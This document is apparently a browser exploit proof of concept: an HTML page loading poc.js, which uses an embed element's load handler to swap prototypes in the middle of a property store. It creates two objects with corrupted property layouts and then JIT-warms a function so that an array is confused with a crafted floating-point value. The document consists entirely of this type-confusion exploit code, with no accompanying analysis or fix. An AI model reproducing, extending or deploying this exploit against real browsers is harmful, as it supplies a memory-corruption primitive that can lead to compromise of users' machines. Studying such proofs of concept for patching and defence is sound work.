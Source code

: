 #### index.html

```html
 <!--index.html-->
<html>
	<body>
		<script src="./poc.js"></script>
		Hello
	</body>
</html>
```

#### poc.js

```javascript
// poc.js
global_object = {};

setPropertyViaEmbed = (object, value, handler) => {
  const embed = document.createElement('embed');
  embed.onload = handler;
  embed.type = 'text/html';
  Object.setPrototypeOf(global_object, embed);
  document.body.appendChild(embed);
  object.corrupted_prop = value;
  embed.remove();
}

createCorruptedPair = (value_1, value_2) => {
  const object_1 = {
	__proto__: global_object
  };
  object_1.regular_prop = 1;

  setPropertyViaEmbed(object_1, value_2, () => {
	Object.setPrototypeOf(global_object, null);
	object_1.corrupted_prop = value_1;
  });

  const object_2 = {
	__proto__: global_object
  };
  object_2.regular_prop = 1;

  setPropertyViaEmbed(object_2, value_2, () => {
	Object.setPrototypeOf(global_object, null);
	object_2.corrupted_prop = value_1;
	object_1.regular_prop = 1.1
  });
  return [object_1, object_2];
}

const array = [1.1];
array.prop = 1;
const [object_1, object_2] = createCorruptedPair(array, 2261620.509803918);

jit = (object) => {
  return object.corrupted_prop[0];
}

for (var i = 0; i < 100000; ++i)
  jit(object_1);

jit(object_2);
```